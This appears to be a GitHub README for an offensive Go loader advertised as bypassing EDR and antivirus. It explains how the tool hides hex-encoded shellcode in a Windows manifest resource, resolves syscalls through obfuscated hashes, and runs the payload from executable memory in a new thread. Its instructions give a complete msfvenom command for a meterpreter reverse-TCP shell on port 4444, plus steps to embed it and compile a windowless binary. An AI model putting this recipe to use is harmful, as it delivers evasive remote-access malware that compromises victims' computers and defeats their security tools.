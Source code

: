 # Bypass EDR / AV 

## Summary
This code loads shellcode embedded within the application’s resources, decodes it, and executes it directly in memory by leveraging Windows API calls. Functions and variables are configured to handle memory structures and permissions, enabling it to create a thread and execute the shellcode.

## Techniques Used

1- Loading and Extracting Resources: It uses FindResourceW and LoadResource functions to locate and load resources embedded within the binary. The function ReturnShellcode() leverages MAKEINTRESOURCE to access a type 24 resource (specific to Windows) and extract the shellcode contained between delimiters (#! and $!).

2- Shellcode Decoding: Once the resource is extracted, the shellcode is decoded from hexadecimal into bytes for execution.

3- Hash Obfuscation: The hash function applies obfuscation by XOR-ing strings with a specific key (0xde, 0xad, 0xbe, 0xef). It then calculates an SHA-1 hash, and the first 16 characters of the result serve as a system call identifier (syscall ID).

4- Memory Allocation and Permission Configuration: The code utilizes Windows API calls to allocate executable memory (with read, write, and execute permissions) for the shellcode (MEM_COMMIT, MEM_RESERVE, PAGE_EXECUTE_READWRITE) and The NtAllocateVirtualMemory method reserves a block of memory with executable permissions for storing the shellcode.

5- Writing and Executing Shellcode in Memory: NtWriteVirtualMemory is used to copy the shellcode into the allocated memory region and A new thread is created with NtCreateThreadEx, pointing to the memory block containing the shellcode.

6- Execution Wait: NtWaitForSingleObject is used to wait indefinitely for the shellcode to execute in the new thread.

We will use a technique of exploiting the manifest files using the RSRC tool.
What is a manifest file? --> It is an XML file that provides information. We will take advantage of this file to leave our shellcode.

## Instructions
Create shellcode --> msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=eth0 lport=4444 EnableStageEncoding=true StageEncoder=x64/xor_dynamic EXITFUNC=thread -f hex

Install 2 libraries : go get "golang.org/x/sys/windows" and go get "github.com/ASP4RUX/Hades/pkg/Hades"

Install RSRC --> go install github.com/akavel/rsrc@latest

Modify manifest.txt file using hex-encoded shellcode inside the characters (#!) and ($!).

RSRC --> rsrc -manifest manifiesto.txt

Compile --> go build -ldflags="-H=windowsgui -s -w"

![imagen](https://github.com/user-attachments/assets/467a3913-0a1a-4022-b40f-a1d0fccc62bf)

